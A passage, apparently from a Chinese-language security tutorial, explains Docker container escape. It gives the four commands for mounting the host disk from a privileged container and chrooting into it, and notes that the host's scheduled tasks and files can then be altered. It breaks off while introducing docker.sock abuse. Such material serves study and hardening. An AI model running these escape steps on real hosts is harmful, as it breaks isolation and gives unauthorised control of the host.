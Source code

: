     ![image-20201209185522787](assets/1700701638-a6548ea8fd3933de610cb3cc2a9aad2f.png)

### 逃逸

逃逸是指我们在容器中逃逸到宿主机中。

#### 特权容器

当容器是以特权启动时，docker将允许容器访问宿主机上的所有设备。  
如下容器是进行特权启动(docker run —privileged)的，我们可以把宿主机磁盘挂载进容器里，然后进行相关的逃逸操作，包括不限于更改计划任务、文件。

1.  `fdisk -l|grep /dev/vda1`
2.  `mkdir /test`
3.  `mount /dev/vda1 /test`
4.  `chroot /test`

![image-20201209191036954](assets/1700701638-01312a0f3d0dfb7f540cb5ee0dbe9f68.png)

#### Docker Socket

/var/run/docker.sock文件是Docker守护进程默认监听的Unix域套接字，容器中的进程可以通过该文件与docker守护进程进行通信。  